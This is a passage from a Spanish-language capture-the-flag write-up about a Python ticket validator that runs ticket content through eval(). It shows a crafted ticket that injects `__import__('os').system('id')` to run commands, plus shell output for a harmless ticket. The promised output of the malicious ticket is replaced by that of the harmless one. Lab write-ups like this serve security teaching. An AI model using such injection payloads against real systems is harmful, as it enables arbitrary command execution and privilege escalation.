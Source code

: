 El script utiliza la función `eval` para evaluar una expresión dentro de un ticket.

Este uso de `eval` permite la ejecución de código arbitrario en el sistema si el contenido del ticket incluye una expresión que pueda ser evaluada, lo cual es un **vector de vulnerabilidad**. En este caso, si el ticket incluye una instrucción maliciosa como la que veremos en el siguiente ejemplo, `eval` ejecutará esa instrucción, permitiendo potencialmente la ejecución de código no deseado en el servidor.

```python
validationNumber = eval(x.replace("**", ""))
```

Aquí se muestra un ticket que explota la vulnerabilidad del script al permitir la ejecución de código arbitrario. Un ticket malicioso podría tener el siguiente formato.

En este ejemplo, el ticket contiene una expresión en la línea `Ticket Code` que, al ser evaluada, no solo realiza una operación matemática, sino que además ejecuta el comando `os.system('id')`, lo que puede permitir ejecutar comandos arbitrarios en el sistema vulnerable.

```markdown
# Skytrain Inc
## Ticket to Exploitville
__Ticket Code:__
**4+__import__('os').system('id')**
##Issued: 2025/03/03
#End Ticket
```

Cuando el script evalúa la expresión del ticket que contiene código malicioso, la instrucción `eval` no sanitiza el contenido, por lo que el comando `__import__('os').system('id')` se ejecutará. Este código malicioso ejecuta el comando `id` en el sistema, lo que devolverá información sobre el usuario actual. La ejecución de este código en el script tendría el siguiente resultado.

El comando `id` es ejecutado en el sistema, lo que potencialmente compromete la seguridad del entorno. En un escenario real, un atacante podría utilizar esta vulnerabilidad para ejecutar comandos maliciosos en el servidor donde se ejecuta el script.

```python
validationNumber = eval("4+__import__('os').system('id')")
```

Al ejecutar el archivo `gzzcoo.md` con el script `ticketValidator.py`, el sistema evalúa el código del ticket que contiene la expresión `31+410+86`. Al ejecutar el script, muestra la siguiente salida.

En este caso, el código del ticket no pasa la validación, ya que el resultado de la operación `31 + 410 + 86` no cumple con los requisitos para ser considerado válido, lo que lleva a que el script devuelva el mensaje "Invalid ticket".

```bash
development@bountyhunter:/tmp$ cat gzzcoo.md 
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
development@bountyhunter:/tmp$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/gzzcoo.md
Destination: New Haven
Invalid ticket.
```
